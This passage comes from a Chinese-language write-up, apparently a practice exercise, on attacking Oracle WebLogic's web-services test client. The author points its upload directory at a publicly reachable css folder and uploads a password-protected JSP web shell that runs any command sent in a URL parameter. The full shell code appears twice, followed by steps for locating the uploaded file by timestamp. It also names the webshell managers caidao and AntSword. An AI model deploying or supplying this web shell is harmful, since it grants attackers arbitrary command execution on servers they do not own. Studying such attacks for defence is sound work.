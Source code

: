 后来，发现需要设置work home dir(文件上传目录) 为

```
/u01/oracle/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/com.oracle.webservices.wls.ws-testclient-app-wls/4mcj4y/war/css
```

这样的话，外网无需权限，就可以访问css内的文件

上传小马

```java
<%
    if("023".equals(request.getParameter("pwd"))){
        java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
        int a = -1;
        byte[] b = new byte[2048];
        out.print("<pre>");
        while((a=in.read(b))!=-1){
            out.println(new String(b));
        }
        out.print("</pre>");
    }
%>
```

找到时间戳(因为weblogic生成的文件为[时间戳]_[文件名])

![image-20210210152037640](C:\Users\LOSEYOURSELF\AppData\Roaming\Typora\typora-user-images\image-20210210152037640.png)

打开url，执行相应命令即可

![image-20210209220517991](C:\Users\LOSEYOURSELF\AppData\Roaming\Typora\typora-user-images\image-20210209220517991.png)

这里我创建了一个名为rick(mkdir)的文件夹

> ps:caidao和蚁剑都没成功连接，但直接访问url却可以执行命令

# 3.小马分析

---

因为之前没接触java，所以现学了一些java基础

小马代码：

```java
<%
    if("023".equals(request.getParameter("pwd"))){
        java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
        int a = -1;
        byte[] b = new byte[2048];
        out.print("<pre>");
        while((a=in.read(b))!=-1){
            out.println(new String(b));
        }
        out.print("</pre>");
    }
%>
```
